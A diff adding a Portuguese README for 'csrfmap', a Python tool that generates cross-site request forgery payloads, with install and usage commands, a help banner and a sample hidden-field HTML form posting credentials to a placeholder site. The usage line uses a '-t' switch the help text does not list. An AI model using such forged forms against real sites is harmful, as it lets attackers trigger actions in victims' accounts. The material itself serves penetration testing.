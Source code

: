 ```diff
+
+ - Gera payloads CSRF com foco em exploração de falsificação de requisições entre sites.
+
+# Forma de utilização
+
+```sh
+csrfmap -a "http://exemplo.com" -m post -t forminteraction -n username password token -v victor password 132423542
+```
+Isso exibirá a ajuda para a ferramenta. Aqui estão todos os switches que ele suporta:
+```yaml
+ _____ _____ _____ _____ _____ _____ _____ 
+|     |   __| __  |   __|     |  _  |  _  |
+|   --|__   |    -|   __| | | |     |   __|
+|_____|_____|__|__|__|  |_|_|_|__|__|__|   
+                                                       
+                        v0.0.2 - @joaoviictorti 
+
+options:
+  -h, --help            show this help message and exit
+  -a ACTION, -A ACTION  Insert action
+  -m METHOD, -M METHOD  Insert method
+  -p {form1,form2,json1,json2}
+  -n NAME [NAME ...], -name NAME [NAME ...] Insert name
+  -v VALUE [VALUE ...], -value VALUE [VALUE ...] Insert values
+
+```
+
+# Instalação
+
+csrfmap requer **python3** e para baixá-lo só usar:
+
+```sh
+pip3 install csrfmap
+```
+
+# Executando csrfmap
+
+```console
+csrfmap -a "http://exemplo.com" -m post -p form1 -n username password token -v victor password 132423542
+
+ _____ _____ _____ _____ _____ _____ _____ 
+|     |   __| __  |   __|     |  _  |  _  |
+|   --|__   |    -|   __| | | |     |   __|
+|_____|_____|__|__|__|  |_|_|_|__|__|__|   
+                                                       
+                        v0.0.2 - @joaoviictorti   
+
+csrf.html:
+<!DOCTYPE html>
+<html lang="pt-br">
+<body>
+	<form action="http://exemplo.com" method="post">
+	<input name="username" value="victor" type="hidden"/>
+	<input name="password" value="password" type="hidden"/>
+	<input name="token" value="132423542" type="hidden"/>
+	<input type="submit">Enviar</input>
+	</form>
+</body>
+</html>
+
+```
```
